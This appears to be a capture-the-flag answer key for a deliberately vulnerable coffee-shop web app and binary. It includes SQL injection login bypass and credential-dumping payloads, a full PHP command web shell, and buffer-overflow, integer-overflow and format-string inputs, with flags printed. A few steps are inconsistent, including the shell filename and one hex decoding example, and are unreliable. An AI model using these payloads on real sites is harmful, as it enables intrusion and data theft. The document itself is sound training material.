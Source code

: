 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database


2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Coffee Strength Flag

**Name**: Coffee Strength Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 1
**Flag Format**: CTF{m0cha_myst3ries_r3v34l3d}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `barista_academy`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./barista_academy
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the decoded `barista_academy` binary to the `challenge/secret-executable` directory.
   2. Build and run the Docker container:
      ```sh
      docker build -t barista-academy .
      docker run -it --rm barista-academy
      ```
    3. Alternatively, you may run the binary directly if you have the necessary environment set up, it is a linux/amd64 binary.

5. Exploit the Buffer Overflow
   1. When prompted to enter your favorite coffee blend, input a string that overflows the buffer and overwrites the `coffee_strength` variable.
   2. The goal is to change `coffee_strength` from its initial value (e.g., 17) to exact amount required (this is randomized). Try inputting a string like:
      ```
      1234567890123456789012345678N
      ```
   3. If the value is not correct, adjust the final character until you reach the target value. The program will give hints about the current strength.
   4. Upon success, the program reveals the flag:
      ```
      CTF{m0cha_myst3ries_r3v34l3d}
      ```
    5. Enter this flag when restarting the program to unlock the next challenge.

## Flag 4: Coffee Shop Balance Flag

**Name**: Coffee Shop Balance Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 2
**Flag Format**: CTF{espresso_3xpr3ss_secrets}

1. After capturing Flag 3, the program unlocks Challenge 2.
2. You start with 1100 coins and can buy coffees costing 900 coins each.
3. The program checks if you have enough balance for the purchase.
4. Exploit integer overflow by entering a very large number of coffees to make the total cost overflow to a negative number (e.g., `12312312`).
5. This causes your balance to increase incorrectly. Repeat purchases if needed.
6. Once your balance reaches or exceeds 100,000 coins, the program awards Flag 4:
   ```
   CTF{espresso_3xpr3ss_secrets}
   ```
7. Enter this flag when restarting the program to unlock the next challenge.

**Hint:** Try entering a very large integer as the number of coffees to order. If the program rejects non-numeric input, use a large positive number to trigger the overflow.

## Flag 5: Secret Order Printer Flag

**Name**: Secret Order Printer Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 3
**Flag Format**: CTF{cappucc1n0_cr4ck3r_4l3rt}

1. After capturing Flag 4, the program unlocks Challenge 3.
2. Use the secret order printer feature, which reads your input and passes it directly to `printf` without format string protection.
3. Exploit the format string vulnerability by sending a payload such as:
   ```
   %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
   ```
4. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
5. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag. For example:
   - `707061637b465443` → `CTF{capp`
   - `635f306e31636375` → `uccino_3c`
   - ...

   There are many online tools available to help with this conversion. 

6. Combine the parts to get the full flag:
   ```
   CTF{cappucc1n0_cr4ck3r_4l3rt}
   ```

**Hint:** Use repeated `%llx` format specifiers to leak stack memory. Convert the hex output to ASCII and reverse the endianness for each chunk to reconstruct the flag.

